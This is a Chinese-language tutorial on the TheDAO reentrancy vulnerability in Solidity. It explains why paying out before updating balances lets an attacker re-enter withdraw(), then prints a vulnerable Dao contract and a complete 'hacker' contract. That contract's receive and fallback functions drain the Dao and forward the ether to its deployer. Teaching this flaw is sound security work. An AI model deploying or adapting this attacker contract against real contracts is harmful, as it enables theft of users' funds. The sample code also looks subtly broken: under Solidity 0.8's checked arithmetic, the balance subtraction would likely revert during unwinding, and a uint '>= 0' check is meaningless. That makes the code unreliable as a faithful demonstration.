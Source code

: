 ```yaml
---
title: tho dao 合约漏洞
date: 2024-07-30 13:43:23
author: ivhu
categories:
  - 区块链
  - 以太坊
tags:
  - 合约安全
  - solidity
---
```


## 什么是 TheDao 漏洞？

简单来讲，thedao 漏洞允许黑客将 thedao 合约中储存的 eth 全部取走。

那么什么是合约之中的 eth 呢？

solidity 允许合约定义 payable 方法来接受 eth. 当用户调用带有 payable 关键字的合约方法时，如果`msg.value`不为 0,则将`msg.value`转移到合约账下。

由于 thedao 是一个面对所有人的合约，而他的业务逻辑也需要用户将 eth 转移到他的合约里面。

那么正常情况下 thedao 合约中有大量的 eth,来自于不同人的转账，一般而言合约会使用一个 mapping 来记录每个地址有多要 eth 在这里面。

## solidity 特性

如果我们向一个合约转账，这里的转账不是使用合约调用的方式，而是像普通转账一样，calldata 为空。

这时合约会自动调用 receive 方法（如果有的话），这将允许合约在收到转账后进行一些操作。

### 什么是先转账后记账

在合约中我们可以使用 transfer,send 等方法将合约中一定数量的 eth 转移到对应的账户中，当然这里的转账对象也可以是另一个合约。

而记账的意思是，由于我们所有的 eth 都是放合约里面，没有区分那个 eth 是谁的，具体的记录一般在合约中用 mapping 记录，那么在合约中，每次我们进行转账时，都应该修改我们维护的账本（也就是那个 mapping）。先转账后记账的意思就是，先使用 transfor,send,call 等方法转账，而后更新 mapping 中的数据。在合约中表现为转账的操作在修改 mapping 的操作前面。

eg：

```solidity
    (bool sent, ) = msg.sender.call{value: bal}("");  // 先转账
    require(sent, "Failed to withdraw sender's balance");

    // Update user's balance.
    balances[msg.sender] = balances[msg.sender] - bal;  // 后修改mapping中的数据

```

那么回到 solidity 的特性，在转账时，接受者合约可以定义`recevie`方法，在转账发生时进行相关操作。

## 漏洞的利用

- 当我们调用 theDao 中转账函数时，合约会向`msg.sender`转账.

- `msg.sender`是黑客的合约，当 theDao 向黑客的合约转账时，会调用黑客合约中的 recevie 方法.

- 由于 evm 是单线程的，所以后面修改 mapping 的操作还不会进行，而黑客的 recevie 方法则再次调用 thedao 中的转账合约.

- 由于 thedao 合约还没有修改账本，所以 thedao 合约还是认为黑客合约还可以提款，而当进行到提款操作时又会进入到黑客合约的`recevie`方法.

如此循环，直到达到黑客`recevie`中设置的阈值。

**案例合约：**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract Dao {
mapping(address => uint256) public balances;

    function deposit() public payable {
        require(msg.value >= 1 ether, "Deposits must be no less than 1 Ether");
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        // Check user's balance
        require(
            balances[msg.sender] >= 1 ether,
            "Insufficient funds.  Cannot withdraw"
        );
        uint256 bal = balances[msg.sender];

        // Withdraw user's balance
        // payable(msg.sender).transfer(bal);  // transfer只能向eoa发送交易
        (bool sent, ) = msg.sender.call{value: bal}("");  // call  eoa和合约都可以发送
        require(sent, "Failed to withdraw sender's balance");

        // Update user's balance.
        balances[msg.sender] = balances[msg.sender] - bal;
        require(balances[msg.sender]>=0,"balances < 0");
    }

    function daoBalance() public view returns (uint256) {
        return address(this).balance;
    }

}
```

**黑客合约：**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

interface IDao {
    function withdraw() external ;
    function deposit()external  payable;
 }

contract Hacker{
    IDao dao;
    address payable hacker;

    constructor(address _dao){
        dao = IDao(_dao);
        hacker = payable(msg.sender);
    }

    function attack() public payable {
        // Seed the Dao with at least 1 Ether.
        require(msg.value >= 1 ether, "Need at least 1 ether to commence attack.");
        dao.deposit{value: msg.value}();

        // Withdraw from Dao.
        dao.withdraw();
    }

    fallback() external payable{
        if(address(dao).balance >= 1 ether){
            dao.withdraw();
        }
    }
    receive() external payable {
        if(address(dao).balance >= 1 ether){
            dao.withdraw();
        }
    }

    function getBalance()public view returns (uint){
        return address(this).balance;
    }
    function getAllETH()public {
        hacker.transfer(address(this).balance);
    }
}
```
